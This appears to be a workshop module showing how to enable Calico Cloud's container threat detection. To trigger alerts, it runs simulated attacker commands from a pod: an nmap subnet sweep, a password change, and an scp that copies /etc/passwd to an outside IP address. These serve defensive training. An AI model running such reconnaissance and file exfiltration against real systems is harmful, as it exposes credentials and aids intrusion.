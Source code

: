 # Module 6 - Realtime Container Thread Defence

Calico Cloud provides a threat detection engine that analyzes observed file and process activity to detect known malicious and suspicious activity.

Our threat detection engine also monitors activity within the containers running in your clusters to detect suspicious behavior and generate corresponding alerts. The threat detection engine monitors the following types of suspicious activity within containers:

- Access to sensitive system files and directories
- Defense evasion
- Discovery
- Execution
- Persistence
- Privilege escalation

1. Let's start by enabling the container threat detection feature.
   For this, go to the `Threat Defence` option in the left-hand menu of Calico Cloud and select `Container Threat Detection`

2. If it is not enabled, you will see a page like this:

   ![enable container threat detection](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/463d0d01-5868-47a6-acfc-f75fe0c3a4fc)

   Click on the Enable Container Threat Detection button, and you will see the following page:

   ![ctd running](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/4d37b974-bdf2-4f97-a4a7-31f5b43b3b22)
 
   Perfect! Now any suspicious activities will generate an alert. Let's try some.

   In other to see the results faster, execute the following on the cluster:

   ```bash
   kubectl -n tigera-runtime-security annotate daemonset runtime-reporter unsupported.operator.tigera.io/ignore="true"
   kubectl -n tigera-runtime-security get daemonset.apps/runtime-reporter -o yaml | sed 's/15m/1m/g' | kubectl apply -f -
   ```

3. Execute the following commands from the attacker pod (if you quitted from its shell, it got deleted. Just create it again, if it's the case.)

   ```bash
   apk update
   apk add nmap
   nmap -sn $(hostname -i)/24
   ```
   
   Wait a minute and look in the Calico Cloud UI in the `Activity` > `Alerts`.

   Optionally, you can also try the following;
   
   ```bash
   passwd hacker
   scp -o ConnectTimeout=3 /etc/passwd goomba@198.13.47.158:/tmp/
   ```

--- 

[:arrow_right: Module 7 - Quarantine Infected Workloads and KSPM](/modules/module-7-quarantine-kspm.md)  <br>

[:arrow_left: Module 5 - Configuring IDS protection and Workload-Centric WAF](/modules/module-5-ids-waf.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
